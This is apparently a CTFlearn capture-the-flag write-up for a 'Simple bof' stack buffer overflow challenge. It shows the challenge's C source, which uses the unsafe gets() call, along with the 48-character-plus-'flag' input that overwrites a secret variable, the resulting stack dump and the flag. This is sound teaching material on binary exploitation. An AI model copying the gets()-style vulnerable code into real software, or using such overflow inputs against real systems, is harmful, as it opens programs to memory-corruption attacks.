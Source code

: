 
<!DOCTYPE html>
<html>

<body>
    <h1>Simple bof- ctflearn</h1>

    <h2>Challenge Description</h2>
    <p> Want to learn the hacker's secret? Try to smash this buffer!

You need guidance? Look no further than to <a href="https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w">Mr. Liveoverflow</a>. He puts out nice videos you should look if you haven't already

nc thekidofarcrania.com 35235
<a href="https://cybersecctf.github.io/blog/2024/practice/ctflearn/simplebuf/bof.c">bof.c</a>

 
</p>
 
    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
        we open bof.c and see is a bufferoverflow in
       <pre>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

// Defined in a separate source file for simplicity.
void init_visualize(char* buff);
void visualize(char* buff);
void safeguard();

void print_flag();

void vuln() {
  char padding[16];
  char buff[32];
  int notsecret = 0xffffff00;
  int secret = 0xdeadbeef;

  memset(buff, 0, sizeof(buff)); // Zero-out the buffer.     and fill 1 with 32 1 for this                                          
  memset(padding, 0xFF, sizeof(padding)); // Zero-out the padding.and fill i with 16 1 here and then flag for secret

  // Initializes the stack visualization. Don't worry about it!
  init_visualize(buff); 

  // Prints out the stack before modification
  visualize(buff);

  printf("Input some text: ");
  gets(buff); // This is a vulnerable call! 

  // Prints out the stack after modification
  visualize(buff); 

  // Check if secret has changed.
  if (secret == 0x67616c66) {
    puts("You did it! Congratuations!");
    print_flag(); // Print out the flag. You deserve it.
    return;
  } else if (notsecret != 0xffffff00) {
    puts("Uhmm... maybe you overflowed too much. Try deleting a few characters.");
  } else if (secret != 0xdeadbeef) {
    puts("Wow you overflowed the secret value! Now try controlling the value of it!");
  } else {
    puts("Maybe you haven't overflowed enough characters? Try again?");
  }

  exit(0);
}

int main() {
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  safeguard();
  vuln();
}
/*
Input some text: 111111111111111111111111111111111111111111111111flag

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret                          
0xffdb72c8 | 31 31 31 31 31 31 31 31 |
0xffdb72d0 | 31 31 31 31 31 31 31 31 |
0xffdb72d8 | 31 31 31 31 31 31 31 31 |
0xffdb72e0 | 31 31 31 31 31 31 31 31 |
0xffdb72e8 | 31 31 31 31 31 31 31 31 |
0xffdb72f0 | 31 31 31 31 31 31 31 31 |
0xffdb72f8 | 66 6c 61 67 00 ff ff ff |
0xffdb7300 | c0 85 fa f7 84 4f 57 56 |
0xffdb7308 | 18 73 db ff 11 2b 57 56 |
0xffdb7310 | 30 73 db ff 00 00 00 00 |

You did it! Congratuations!
CTFlearn{buffer_0verflows_4re_c00l!}
*/
</pre>
    we add flag in end of 48 1(32*"1"+16*"1"+"flag") or any char because secret comming after them and should be<pre>  if (secret == 0x67616c66) {
    puts("You did it! Congratuations!");
    print_flag(); // Print out the flag. You deserve it.
    return;
  } </pre>
that 0x67616c66 is hex of flag in reverse(ord('f')=102,hex(102)
'0x66') )and secret should be flag for reach print_flag()  and print flag. 
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">CTFlearn{buffer_0verflows_4re_c00l!}
</p>

    <h2>Conclusion</h2>
    <p>this is a very   easy chanllenge for work on  binary overflow and  binary exploitation</p>
</body>
</html>


 
